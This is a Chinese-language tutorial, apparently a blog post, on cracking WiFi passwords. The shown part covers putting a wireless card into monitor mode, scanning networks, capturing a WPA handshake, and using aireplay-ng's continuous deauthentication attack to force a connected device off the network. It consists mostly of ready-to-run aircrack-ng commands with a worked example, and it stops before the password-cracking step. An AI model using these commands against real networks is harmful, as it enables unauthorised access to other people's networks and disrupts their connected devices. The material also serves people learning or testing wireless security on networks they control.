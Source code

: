 ### WIFI 密码

要破解 WIFI 密码，首先要抓到 WIFI 的握手包，要想得到 WIFI 的握手包，就需要在监听时刚好有设备连接了该 WIFI，但这就需要运气加成，因此可以我们可以主动将该 WIFI 的设备踢下去，一般设备就会自动连接该 WIFI，此时我们就抓到握手包了。

**抓取 WIFI 握手包**

1、将网卡处于监听状态

```text
airmon-ng check 
airmon-ng check kill // 关闭影响监听状态的进程
airmon-ng start wlan0
```

> wlan0 是网卡名称，一般都是 wlan0，如果不是则需要根据自己的情况进行修改，可通过 iwconfig 进行查看网卡的名称

当使用 iwconfig 查看网卡名称变为 wlan0mon 说明此时网卡已经处于监听模式了

2、扫描可用 WIFI

```text
airodump-ng wlan0mon
```



![img](https://pic3.zhimg.com/80/v2-90eda85620e47e1b827defb547ec9492_720w.webp)



3、获取wifi的握手包

```text
airodump-ng -c (上一步扫描的 CH ) --bssid (想要破解 WIFI 的 bssid ) -w (握手文件存放目录) wlan0mon
```

这里以 ssid 为 teamssix 的 WIFI 为例

```text
airodump-ng -c 1 --bssid 5E:C1:1B:A2:37:F1 -w ./ wlan0mon
```

为了顺利得到 WIFI 的握手包，可以将该 WIFI 下的设备强制踢下去

```text
aireplay-ng -0 0 -a (要破解的 wifi 的 bssid ) -c (强制踢下的设备的 MAC 地址) wlan0mon
```



![img](https://pic3.zhimg.com/80/v2-f7a6b132df4ca2ea71dc00840425fffa_720w.webp)



可以看到 teamssix 这个 WIFI 有一个设备正在连接，该设备的 MAC 地址为：38:26:2C:13:D3:33，使用以下命令可以将其强制踢下去

```text
aireplay-ng -0 0 -a 5E:C1:1B:A2:37:F1 -c 38:26:2C:13:D3:33 wlan0mon
```

等待设备重新连接后，当右上角出现 WPA handshake 的时候说明获取成功


